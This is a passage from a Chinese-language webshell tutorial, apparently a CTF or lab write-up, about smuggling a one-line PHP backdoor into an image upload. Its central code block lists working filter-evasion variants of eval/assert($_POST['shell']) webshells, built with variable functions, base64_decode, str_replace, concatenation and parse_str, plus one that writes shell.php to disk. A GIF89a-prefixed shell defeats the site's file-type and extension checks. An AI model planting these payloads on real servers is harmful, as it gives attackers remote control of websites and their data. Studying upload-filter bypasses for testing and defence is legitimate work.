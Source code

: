 用 Notepad++ 打开 “mm-ma01.jpg” 可以看到，里面包含了一句话木马，并且不影响我们的图片质量。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcQutLibVq5o85WtBlhDAPGehLIhN4YSIicQtafJfZe3W7EibhMGibfWP6qg/640?wx_fmt=png)

此时我们上传包含一句话木马的 “mm-ma01.jpg” 文件，但提示错误：You could not upload this image because of some dangerous code in your file!，这是因为它检查了 “eval” 关键词。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Ccpem4pibuStmiawj8gIibkvrYn8aa7iaTmjD0ZgAyUxBmDwiaHp2XDleGTjA/640?wx_fmt=png)

3. 过狗一句话绕过限制
------------

上面说明对某些关键字有限制，我们需要对一句话木马进行绕过处理，下面我总结了常见的一些方法：

```
//通过变量赋值<?php $a='b'; $$a='assert'; $b($_POST[shell]); ?><?php $a = "eval"; $a(@$_POST['shell']); ?>//通过str_replace函数替换<?php $a=str_replace("Waldo", "", "eWaldoval"); $a(@$_POST['shell']); ?>//通过base64_decode函数编码<?php $a=base64_decode("ZXZhbA=="); $a($_POST['shell']);?>//通过字符串拼接<?php $a="e"."v"; $b="a"."l"; $c=$a.$b; $c($_POST['shell']); ?>//利用parse_str函数<?php $str="a=eval"; parse_str($str); $a($_POST['shell']); ?>//使用脚本<script language="PHP"> @eval($_POST['shell']); </script>//创建shell.php文件<?php fputs(fopen('shell.php','w'),'<?php assert($_POST[whuctf]);?>'); ?>//使用一句话木马时可以在函数前加”@”符 让php语句不显示错误信息从而增加隐蔽性
```

下面是我进一步制作的图片一句话木马。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcoicsPDibo0O30VeSe3RCibfHhpNkiaY6WKgFicspmu6nGvzEgicYld45HXCA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Ccqk9icxpzv07hZAT6RxWtmic4ggTPKqtg9fZicwybuYmdkTS5oBNCX1dpA/640?wx_fmt=png)

遗憾的是，虽然图片都能成功上传，但中国蚁剑和冰蝎都无法连接成功。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Ccy8icTAKpOGByyWG6ExadgTIvQLOntC25zZX0TAcO63PxFmjcIibicOljA/640?wx_fmt=png)

同时，发现只要增加文件头如 “GIF89a”，就能够绕过该网站上传图片的限制。

```
GIF89a<?php assert($_POST[whuctf]); ?>
```

如果是本地上传 “gif-ma01.php” 文件，就能够成功反弹 shell，如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Ccfmqb3DKY70AwQE4ibQqn8Wq0WCEJv8icFKcAT5drWaJmhvmFRk4tSorA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcP4gzyjM73FmWIM0uSLB8UghSquIy1m5iafIcYb40deNSy2AR1ro9cYA/640?wx_fmt=png)

但该网站会提示 “You can’t upload this kind of file!”，因为它对上传的后缀名有校验（从而拦截 gif-ma01.php），而如果修改后缀为 “gif-ma01.gif”，则能够成功上传。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Cc0SmLicWTNNWnEKQR6nsOZVb1esjialfSozGajfUrHjFAOk8ib727nkgnw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Ccu2xHxBKhtWCAIdEGInYrpdPsc1hGRLUv7lib5JlxcX6LczfsdqlfiavQ/640?wx_fmt=png)

查看该 gif 图片显示如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Cc6O4FhrXUq8qqe2QHkXK64lp65QPD3u7a8fr1SQKlc3Rx1flnULQyng/640?wx_fmt=png)
